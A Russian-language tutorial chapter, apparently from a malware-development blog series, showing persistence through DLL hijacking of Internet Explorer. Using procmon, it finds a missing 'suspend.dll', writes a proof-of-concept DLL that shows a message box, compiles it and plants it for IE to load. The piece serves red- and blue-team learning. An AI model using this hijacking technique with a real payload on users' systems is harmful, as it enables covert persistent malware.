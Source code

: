 \newpage
\subsection{81. разработка вредоносного ПО: закрепление (persistence) - часть 15. Internet Explorer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 


![pers](./images/75/2022-10-13_00-24_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через Internet Explorer.     

### internet explorer

В одном из моих [предыдущих постов](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) я писал о реальном примере DLL-подмены. На этот раз жертвой становится Internet Explorer. Конечно, многие из вас даже не используют его и вряд ли удаляли его намеренно из Windows.    

### практический пример

Как и в предыдущем посте, запустим [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из sysinternals и установим следующие фильтры:    

![pers](./images/75/2022-10-13_00-03.png){width="80%"}    

Затем запустим `Internet Explorer`:     

![pers](./images/75/2022-10-13_00-04.png){width="80%"}    

![pers](./images/75/2022-10-13_00-04_1.png){width="80%"}    

Как видно, процесс `iexplore.exe` не находит несколько DLL, которые потенциально можно использовать для DLL-подмены. Например, `suspend.dll`:     

![pers](./images/75/2022-10-13_00-05.png){width="80%"}    

Давайте попробуем найти другие возможные местоположения, возможно, у нас есть легитимная версия этой DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](./images/75/2022-10-13_00-09.png){width="80%"}    

Но, как видно, файл не найден, значит, эта DLL используется только Internet Explorer.    

Затем я подготовил "вредоносную" DLL с сообщением `meow-woof`:    

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем нашу вредоносную DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](./images/75/2022-10-13_00-12.png){width="80%"}    

Затем переименовываем файл в `suspend.dll` и помещаем его в каталог, откуда загружается Internet Explorer:     

![pers](./images/75/2022-10-13_06-13.png){width="80%"}    

![pers](./images/75/2022-10-13_00-15.png){width="80%"}    

И, наконец, пробуем запустить наше целевое приложение:     

![pers](./images/75/2022-10-13_00-16_1.png){width="80%"}    

![pers](./images/75/2022-10-13_00-18.png){width="80%"}    

![pers](./images/75/2022-10-13_00-24.png){width="80%"}    

После закрытия всплывающего окна Internet Explorer продолжает работать, не завершается с ошибкой:    

![pers](./images/75/2022-10-13_00-16.png){width="80%"}    

Как можно видеть, все сработало. Идеально! =^..^=     

### заключение

Теперь мы добились закрепления через Internet Explorer.    

Именно поэтому этот пост относится к категории закрепления - наша вредоносная DLL будет запускаться каждый раз, когда пользователь открывает Internet Explorer. И также при его закрытии. Небольшой сюрприз для любителей Windows. Вам даже не нужно ничего устанавливать или удалять.    

Это также работает на `Windows 11 x64`:     

![pers](./images/75/2022-10-13_06-37.png){width="80%"}    

Хотя вряд ли кто-то запустит Internet Explorer в 2022 году, согласны?    

Как охотник за уязвимостями в Windows, если вы хотите найти уязвимости повышения привилегий в самой операционной системе, вам часто стоит начинать с чистого листа – с новой установки Windows.    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
